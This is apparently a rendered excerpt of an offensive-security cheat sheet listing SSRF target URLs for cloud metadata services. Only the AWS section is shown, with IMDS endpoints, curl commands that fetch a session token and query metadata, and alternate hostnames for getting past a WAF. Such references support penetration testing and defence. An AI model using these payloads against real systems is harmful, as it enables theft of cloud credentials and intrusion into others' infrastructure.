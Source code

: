 
# SSRF URL for Cloud Instances

> When exploiting Server-Side Request Forgery (SSRF) in cloud environments, attackers often target metadata endpoints to retrieve sensitive instance information (e.g., credentials, configurations). Below is a categorized list of common URLs for various cloud and infrastructure providers

## Summary

* [SSRF URL for AWS Bucket](#ssrf-url-for-aws)
* [SSRF URL for AWS ECS](#ssrf-url-for-aws-ecs)
* [SSRF URL for AWS Elastic Beanstalk](#ssrf-url-for-aws-elastic-beanstalk)
* [SSRF URL for AWS Lambda](#ssrf-url-for-aws-lambda)
* [SSRF URL for Google Cloud](#ssrf-url-for-google-cloud)
* [SSRF URL for Digital Ocean](#ssrf-url-for-digital-ocean)
* [SSRF URL for Packetcloud](#ssrf-url-for-packetcloud)
* [SSRF URL for Azure](#ssrf-url-for-azure)
* [SSRF URL for OpenStack/RackSpace](#ssrf-url-for-openstackrackspace)
* [SSRF URL for HP Helion](#ssrf-url-for-hp-helion)
* [SSRF URL for Oracle Cloud](#ssrf-url-for-oracle-cloud)
* [SSRF URL for Kubernetes ETCD](#ssrf-url-for-kubernetes-etcd)
* [SSRF URL for Alibaba](#ssrf-url-for-alibaba)
* [SSRF URL for Hetzner Cloud](#ssrf-url-for-hetzner-cloud)
* [SSRF URL for Docker](#ssrf-url-for-docker)
* [SSRF URL for Rancher](#ssrf-url-for-rancher)
* [References](#references)

## SSRF URL for AWS

The AWS Instance Metadata Service is a service available within Amazon EC2 instances that allows those instances to access metadata about themselves. - [Docs](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)

* IPv4 endpoint (old): `http://169.254.169.254/latest/meta-data/`
* IPv4 endpoint (new) requires the header `X-aws-ec2-metadata-token`

  ```powershell
  export TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/latest/api/token"`
  curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"
  ```

* IPv6 endpoint: `http://[fd00:ec2::254]/latest/meta-data/`

In case of a WAF, you might want to try different ways to connect to the API.

* DNS record pointing to the AWS API IP

  ```powershell
  http://instance-data
  http://169.254.169.254
  http://169.254.169.254.nip.io/
  ```
